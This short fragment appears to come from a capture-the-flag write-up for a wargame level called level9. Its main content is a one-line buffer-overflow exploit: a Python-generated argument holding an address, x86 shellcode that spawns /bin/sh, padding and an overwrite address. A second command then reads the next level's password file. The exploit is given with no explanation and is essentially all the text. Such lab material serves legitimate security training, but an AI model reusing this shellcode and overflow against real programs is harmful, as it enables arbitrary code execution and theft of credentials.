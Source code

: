 `./level9 $(python -c 'print "\x10\xa0\x04\x08\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80" + "a" * 81 + "\x0c\xa0\x04\x08"')`
`cat /home/user/bonus0/.pass`